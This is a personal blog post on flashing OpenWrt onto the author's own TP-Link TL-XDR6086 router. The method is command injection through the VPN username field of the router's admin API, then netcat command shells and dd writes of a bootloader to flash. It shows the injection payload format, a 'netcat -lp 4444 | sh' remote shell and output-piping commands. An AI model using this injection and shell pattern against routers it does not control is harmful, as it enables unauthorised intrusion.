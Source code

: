 ```yaml
---
title: 'Install Openwrt in TP-Link TL-XDR6086'
description: 'use shell injection to flash Openwrt into TL-XDR6086'
pubDate: 'Aug 29 2024'
updatedDate: 'Nov 14 2024'
heroImage: 'https://imagedelivery.net/6gszw1iux5BH0bnwjXECTQ/727ee92c-717e-4d32-b8f2-98b9865c8300/small'
lang: 'en'
---
```


I thought I should buy a router before I would move to japan. 

For

1. OpenWrt Installable: I love openwrt, because of providing many unique functions like global transparent proxy.
2. Internal Antenna: Takes up less space and is neater.
3. 2.5 Gbps Cable Interface
4. Strong CPU: for OpenWrt and 2.5 Gbps bandwidth

I found TP-Link TL-XDR6086 in OpenWrt device list and bought one.

You can find the [tutorial](https://openwrt.org/toh/tp-link/xdr-6086) easily in OpenWrt website.

## Common knowledge you must know

It should be considered unusual that you can replace your router's operating system. Similar to gaining root access on an Android phone, this involves obtaining permissions that manufacturers intentionally restrict, typically through exploiting system vulnerabilities.

If you do what I did but in your case your router can never boot again, not my fault. It works on my machine.

You **should** search the device information in [OpenWrt Wiki](https://openwrt.org/toh/tp-link/xdr-6086), **not** Baidu, yahoo or other random somewhere.

You might need to download [built packages](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/) from OpenWrt source, to avoid compile them manually.

I assume you know how to use Linux (or MacOS, freeBSD). If you only use Windows, get outta here.

## How the vulnerability works

When you call `http://192.168.1.1/stok=${STOK}/ds` to create a VPN user, there is a slot you can inject the shell command.

> After entering the admin page, use F12 to find the fetch requests, then you can get `${STOk}`.

```json
{
    "vpn":{
        "table":"user",
        "para":{
            "username":"; INJECT YOUR SHELL COMMAND HERE&",
            "password":"password1",
            "type":"l2tp",
            "netmode":"client2lan",
            "localip":"192.168.2.1",
            "dns":"1.1.1.1",
            "block":"0",
            "ippool":"new",
            "maxsessions":"1"
        },
        "name":"user_1"
    },
    "method":"add"
}
```

> For example, if you want to execute `echo 'fuck'`, `username` should be `;echo 'fuck'&`

Now, the shell command is stored in database. The trigger is when you delete this VPN user.

## Replace with OpenWrt

First, prepare a USB media. 

> By the way, based on what I've observed in Chinese forums, where many experienced users are skilled at bypassing CCP monitoring through VPNs, the most popular solution in Chinese OpenWrt community is to set up a TFTP server on a PC and configure the router to download everything from it.
>
> This is too troubling. For windows users, they even suggest them to install WSL then operate like a linux user.
>
> I think this is because many of them shares the solution without fully understanding why that works.

Download [`natcat`](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/) into USB media. You'd better format it with FAT32, and rename the package into `netcat.ipk`.

### Mount USB media and prepare reflect shell

Run the following commands through the vulnerability I mentioned before.

```sh
mkdir /tmp/usb
```

Listen with netcat in your PC to receive the output from the injected shell.

```sh
nc -l -p 4444
```

> netcat is a network testing tool, also is widely used for reflect shell.
>
> Listen on your PC with netcat, and pipe the output of injected shell into `nc` in router, then you can get the output in your PC.
>
> If netcat is installed in the router, is is possible to listen with netcat on router from PC. By piping the message from pc, you can run the command from your PC.

For example, you can use this command to check if the creation is successful. Replace `192.168.1.100` with your PC's address.

```sh
ls -la /tmp | nc 192.168.1.100 4444
```

If succeed, mount the USB media. 

Attention that if you have plugged out the media, the number will increase, like `sda2` `sda3`, when you plug in. The number will recover to 1 after you reboot the device.

```sh
mount -t vfat /dev/sda1 /tmp/usb
```

> use `ls /dev | nc 192.168.1.100 4444` to find the name of USB media.

Check whether mounting is successful

```sh
ls -la /tmp/usb | nc 192.168.1.100 4444
```

Then, install natcat

```sh
opkg install /tmp/usb/netcat.ipk
```

Now, it is more convenient to run the shell command by netcat.

```sh
netcat -lp 4444 | sh
```

### Backup

backup to usb media:

```sh
dd if=/dev/mtdblock9 of=/tmp/usb/backup.img bs=131072
```

### Install U-Boot

**CAUTION: DANGEROUS OPERATION! Ensure acknowledging what and why you are doing!**

According to [this GitHub issue](https://github.com/hanwckf/immortalwrt-mt798x/issues/207), you can compile the u-boot from [the source code for bl-mt98x](https://github.com/hanwckf/bl-mt798x). *Of course you can also download form others*.

Execute these two commands *in order*. You must ensure the first one is successful then you can run the second one. Maybe the filename is different, the key is bl2 first then fip.

```sh
dd bs=131072 conv=sync of=/dev/mtdblock9 if=/tmp/usb/xdr608x-bl2.bin
dd bs=131072 conv=sync of=/dev/mtdblock9 seek=28 if=/tmp/usb/xdr608x-fip.bin
```

> use `2>&1 |` to receive the error

Set ip address in PC as `192.168.1.100/24`, the default gateway as `198.168.1.1`.

Cut off the power of router, then power up. If going well, the LED should blinks with red. Open <http://192.168.1.1> in browser and you can see the u-boot web ui.

![u-boot web ui](https://imagedelivery.net/6gszw1iux5BH0bnwjXECTQ/5d6eb200-ac42-4b02-c09b-f689ec194d00/public)

### Install OpenWrt

As of August 29, 2024, XDR-6086 is not fully supported by OpenWrt. It is quite difficult to find OpenWrt firmware that is compatible with XDR-6086.

I find compatible one in a Chinese forum called En Shan Forum (恩山论坛).

